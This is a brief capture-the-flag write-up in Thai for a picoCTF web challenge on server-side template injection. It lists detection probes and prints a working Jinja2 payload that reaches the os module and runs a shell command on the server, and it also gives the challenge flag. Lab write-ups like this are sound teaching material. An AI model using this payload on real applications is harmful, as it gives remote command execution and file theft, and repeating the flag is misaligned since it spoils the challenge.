

# SSTI1 (Web Exploitation)



**Flag:** `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}`

## Goal

ยืนยันช่องโหว่ Server-Side Template Injection และใช้มันอ่านไฟล์ flag บนเซิร์ฟเวอร์

## The Logic

1. ลองส่ง payload ง่าย ๆ อย่าง `{{ 7*7 }}` เพื่อดูว่า input ถูกประมวลผลใน template หรือไม่
2. เมื่อผลลัพธ์ออกมาเป็น `49` จึงยืนยันได้ว่ามี `SSTI`
3. ลอง enumerate บริบทของ template เช่น `{{ config }}` หรือ environment variables เพื่อหาเบาะแส
4. ใช้ object ที่เข้าถึง `os` ได้ เช่น `url_for.__globals__['os']`
5. รันคำสั่ง `ls` เพื่อดูไฟล์ในเครื่อง จากนั้นอ่านไฟล์ `flag` ด้วย payload นี้:

```jinja2
{{ url_for.__globals__['os'].popen('cat flag').read() }}
```

## New Loot

- `{{ 7*7 }}` เป็น payload ตรวจ SSTI ที่ง่ายและเร็วมาก
- ถ้า template หลุดถึง object ภายในของภาษาได้ ก็มีโอกาสไต่ไปถึง RCE หรือ file read ได้
